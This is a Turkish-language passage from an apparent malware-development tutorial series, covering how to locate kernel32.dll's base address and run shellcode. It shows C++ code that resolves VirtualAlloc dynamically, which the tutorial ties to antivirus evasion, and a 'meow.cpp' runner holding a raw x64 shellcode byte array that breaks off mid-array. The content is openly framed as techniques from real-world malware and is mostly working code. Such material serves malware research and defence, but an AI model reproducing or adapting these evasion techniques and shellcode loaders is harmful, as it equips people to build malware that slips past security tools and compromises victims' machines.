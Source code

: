 \newpage
\subsection{31. zararlı yazılım geliştirme tüyoları. Kernel32.dll tabanını bulma: ASM tarzı. C++ örneği.}

﷽

![injection](./images/47/2022-04-02-malware-18.png){width="80%"}    

Bu bölüm, gerçek hayattaki zararlı yazılımlarda kullanılan ilginç bir numara üzerine yaptığım kendi araştırmaların bir sonucudur.     

Yazılarımdan [birinde](https://cocomelonc.github.io/tutorial/2021/09/06/simple-malware-av-evasion-2.html), `GetModuleHandle` kullanımından bahsetmiştim. Bu işlev, belirtilen bir DLL'in bir tanıtıcısını döndürür. Örneğin:    

```cpp
#include <windows.h>

LPVOID (WINAPI * pVirtualAlloc)(
LPVOID lpAddress, SIZE_T dwSize, 
DWORD flAllocationType, DWORD flProtect);

//...

int main() {
   DWORD oldprotect = 0;

   HMODULE hk32 = GetModuleHandle("kernel32.dll");
   pVirtualAlloc = GetProcAddress(hk32, "VirtualAlloc");

   //...

   return 0;
}
```

Daha sonra, shellcode'u yürütmenin asıl yolu aşağıdaki gibi bir şeydir (`meow.cpp`):    

```cpp
#include <windows.h>

LPVOID (WINAPI * pVirtualAlloc)(
LPVOID lpAddress, SIZE_T dwSize, 
DWORD flAllocationType, DWORD flProtect);

unsigned char my_payload[] =
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
```